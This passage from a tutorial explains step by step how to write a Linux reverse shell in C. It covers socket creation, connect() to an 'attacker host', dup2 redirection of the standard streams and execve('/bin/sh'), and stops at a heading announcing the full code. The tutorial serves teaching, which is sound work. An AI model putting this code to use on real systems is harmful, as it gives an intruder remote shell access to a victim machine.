 Notice `htons`?  `htons` (host-to-network-short) converts an integer from host byte order to network byte order. We need this because host byte order is little endian, while network byte order is big endian. This makes sure numbers stored in memory go out in network byte order. Network byte order are always big endian.

`inet_aton` converts IP addresses and port from string to binary, because that's what your network card expects to send.

### Step 2: Create a File Descriptor

 When calling `socket()` we need to specify 3 parameters: `sin_family`,  `sock_type` and `protocol_type`. We pass 0 as it means `IPPROTO_TCP` or `IPPROTO_UDP` depending on the `sin_family` used.

```c
int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);
```

### Step 3: Connect the Socket

With a file descriptor created we just need to connect to our attacker host so our our computers can talk to each other. So let's call [connect()](https://www.man7.org/linux/man-pages/man2/connect.2.html)! Connect expects a file descriptor, the sock address and the size of that address.

```c
connect(socket_file_descriptor, (struct sockaddr *) &target_address, sizeof(target_address))
```

### Step 4: Shell time

In Linux when we're working with the shell there are 3 standard streams: `stdin`, `stdout` and `stderr`. In order for the attacker (us) to read the information from these streams, we need to send that to our file descriptor.

 To achieve this you can either use `dup2(int old_file_descriptor, int new_file_descriptor)` for each one of these streams or just use a for loop:

```c
for (int i = 0; i < 3; i++){
        dup2(socket_file_descriptor, i);
    }
```

Once we have the connection and we're redirecting the streams to the file descriptor, we can now execute our commands. We use the `execve(const char *pathname, char *const _Nullable argv[]v, char *const _Nullable envp[])`. This function executes a new program in the context of the calling process (the program we just wrote in this case). In depth:

* It replaces the current process with the new process;
* PID of our program stays the same, but the content is entirely replaced;
* All file descriptors that are opened are preserved;

```c
execve("/bin/sh", NULL, NULL);
```

[execve(2) - Linux manual page (man7.org)](https://www.man7.org/linux/man-pages/man2/execve.2.html)

## Talk is cheap, show me the code
